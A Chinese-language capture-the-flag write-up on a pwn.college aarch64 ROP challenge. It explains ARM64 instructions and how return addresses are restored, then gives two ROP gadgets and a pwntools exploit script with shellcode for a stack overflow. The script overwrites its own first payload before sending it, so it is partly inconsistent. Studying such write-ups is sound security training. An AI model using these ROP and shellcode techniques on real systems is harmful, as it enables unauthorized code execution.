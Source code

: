 ```yaml
---
title: pwn-college的一道arm rop题
date: 2024-10-13
categories: 日常研究
tag: arm
---
```

# 前言
最近是在[Rocket](https://rocketmadev.github.io/)安利下去看了[pwncollege](https://pwn.college/)这个网站，然后感觉还不错，armdojo已经快刷完了，就差一题！！！但是最后一题好难啊，看了好几个小时没思路。
# arm中rop所需要了解的知识
首先arm的rop和x86中差了非常多，所以这里介绍一下差别，顺便带一下道场中别的知识包括汇编指令和在栈溢出学习中发现的不同。
## aarch64汇编指令
1. aarch64是arm的64位的叫法，就像x86-64和x86一样。
2. arm中的寄存器有整整30个！
其中函数传参时前八个参数使用X0-X7，后续参数放在栈上。
而syscall时前八个参数依然是X0-X7
以及很重要的X30寄存器也就是LR寄存器，其作为函数返回地址保存的寄存器，函数返回将会无条件跳转至X30。
3. arm架构下，所有的指令是4个字节定长的！！其带来了很多神奇的与x86不同的特性，按我的话说，成也定长，败也定长。
    1.  细说一下，比如"mov rax, 0x2024202520262027"这个指令可以直接在x86中一步完成，
        但是在arm中，收到指令定长为4的限制，无论如何不可能出现超过两个字节的立即数。
        arm的解决办法如下
        ```asm
        MOV  X0 0x2027
        MOVK X0 0x2026, LSL #16
        MOVK X0 0x2025, LSL #32
        MOVK X0 0x2024, LSL #48
        ```
        通过位移的方式赋值，最多一次赋值两个字节。
    2.  然后是add,sub,smull,sdiv指令等等，其支持三个操作数的特性使其比x86更加灵活。
        ```asm
        ADD X0, X1, X2
        ```    
        就是`X0 = X1 + x2`的功能，可以发现其在x86中是完全不可能一条指令实现的。
        这只是最简单的，更详细的可以在[arm开发者手册通常指令](https://developer.arm.com/documentation/dui0802/b/A64-General-Instructions/A64-general-instructions-in-alphabetical-order)[arm开发者手册数据转换指令][def]中找到更详细的内容
    3.  还有很重要的`LDR`和`LDP`指令，是从地址中加载数据到寄存器。
        ```asm
        MOV X3, sp
        LDR X0, [X3]
        ```
        LDR是`load addr`加载地址，LDP是`load addr pair`成对加载地址
        比如这条指令从[X3+8]的位置加载出来0x10的内存，前0x8的内存加载给X1,后0x8的内存加载给X2。
        ```asm
        LDP X1, X2, [X3, #0x8]
        ```
        与`LDR`和`LDP`对应的是`STR`和`STP`，其功能显然就是反过来，所以懒得说了。
    4.  arm有三种索引方式，`preindex``postindex``offset`，其原理都是基于一个基址寄存器加上一个偏移取地址。
        1. 比如`LDR X0, [SP , #0x90]`就是offset取地址，其不改变SP的值直接从[SP+0x90]的位置取出0x8大小的内存赋值给X0。
        2. `LDR X0, [SP, #0x90]!`则是先对SP+=0x90，再从[SP]的地址取出0x8大小的内存赋值给X0
        3. `LDR X0, [SP], #0x90`则是先从SP取出内存赋值，再使得SP+=0x90
        可以发现其功能比x86强大很多，也许是因为固定四个字节的指令长度强迫其必须在一条指令中实现更多功能，否则如果按照x86的设计逻辑，代码段的长度会长非常多。
        不过有一点非常可惜的是arm中没有直接的push和pop指令，而是通过LDR来实现push和pop等对于栈的操作。
接下来具体的到题目中分析

# ARM-ROP
arm中函数返回地址的取值并非x86中直接从栈上取，而且我目前了解到clang和gcc编译的arm程序的返回地址取值都有着一定区别。这题是clang编译的，所以首先说clang编译的程序机制。

`RET`指令在x86中意味着`pop rip`，而在arm中意味着`B X30`，B是arm的无条件跳转指令，也就是说每当arm函数返回时，其无条件跳转至X30的地址。

与X30一对的是X29，X29类似于一个rbp，作为辅助来维持栈的结构，但是很少被真正用来索引，我也没有见过像x86中的`mov rsp, rbp`这种可以利用rbp的情况发生，甚至连函数内部的变量索引都很少用到X29。

每当新函数被调用，就会将X29，X30的值保存在栈上，然后在返回时取出并且跳转至X30，看似栈溢出劫持程序流的思路依然可行对吧，但是实际上这比x86中难了一个档。

![clang-ret](./arm-rop/clang_ret.png)

图中可以看到，程序从[SP+0x50]的位置加载出X29和X30，当我们在challenge函数中存在栈溢出时，对于challenge函数的返回地址劫持就成功了。

可以对比一下x86和arm的区别
```asm
mov rsp, rbp
ret
```
x86固定从栈顶取返回地址。而arm的返回地址固定从SP+多少多少取，而这个值就取决于函数栈帧大小，所以从sp到sp+多少多少这段栈帧都必须被覆盖才能写到下一个函数的返回地址。
而且，arm的`RET`指令还依赖于`LDP X29, X30, [SP],#0x20`，必须由该指令加载X30后RET才能正确返回。
而且，arm还是定长指令，不存在x86中可以通过错位构造一些gadget的情况。
还有就是，x86中经常出现函数末尾pop来恢复寄存器然后返回，但是在arm中我经常只能看到对于X19和X20的恢复，也许是因为arm的寄存器太多了，太阔了吧QAQ

说了这么多，还是上图片吧。这样讲就很明显了，由于
![stack](./arm-rop/stack.png)

# 程序分析
arm道场系列里第一个module是熟悉一下aarch64的各种指令，手写各种指令做一下简单操作。第二个module是rop，所以贯穿始终的都是超长超大的栈溢出。

![main_ida](./arm-rop/main_ida.png)
main里面几乎没有任何内容，然后是challenge函数。
![challenge](./arm-rop/challenge.png)
直接给了一个栈地址，然后给了超大栈溢出。
还有就是该函数是静态编译的，所以有特别多gadget。

由于上面说到的种种困难，我在寻找gadget时有点卡住了，不过最后，让我找到了非常好用的两个gadget
```
0x43e980 : ldp x19, x20, [sp, #0x10] ; ldp x21, x22, [sp, #0x20] ; ldp x23, x24, [sp, #0x30] ; ldp x25, x26, [sp, #0x40] ; ldp x27, x28, [sp, #0x50] ; ldp x29, x30, [sp], #0x130 ; ret
# x19-x30

0x42f278 : ldr x3, [x21, #0x38] ; mov x1, x23 ; mov x2, x20 ; mov x0, x19 ; blr x3
```
单单通过栈就能控制x19-x30的寄存器，然后再控制x0，x1，x2，x3，通过x3继续控制程序流，不得不说，还好这题给了栈的值，要不就没法通过x21控制x3了。
## exp
```python
from pwn import *
import os
os.environ['QEMU_LD_PREFIX'] = '/usr/aarch64-linux-gnu'
context(terminal = ['tmux','splitw','-h'], arch = "aarch64", log_level = "debug")
io = gdb.debug('./pwn')

io.recvuntil(b'at: ')
stack = int(io.recv(0xe), 16)
print(hex(stack))

shellcode = asm(shellcraft.aarch64.sh())

payload = b''
payload += b'/flag\x00' + p64(0x43E568) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x43e980) # x30
payload += p64(0x0) + p64(0x42f278) # x29, x30
payload += p64((int(stack/0x1000)*0x1000)) + p64(0x7) # x19(x0), x20(x2)
payload += p64(stack + 6 - 0x38) + p64(0x0) # x21, x22
payload += p64(0x1000) + p64(0x0) # x23(x1), x24
payload += p64(0x0) + p64(0x0) # x25, x26
payload += p64(0x0) + p64(0x0) # x27, x28
payload += shellcode + b'\x00'*(0xD0-len(shellcode))
payload += p64(0x0) + p64(stack + 0xa7)

payload = b''
payload += b'/flag\x00' + p64(0x0) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x401878) # x30
io.send(payload)

io.interactive()
```
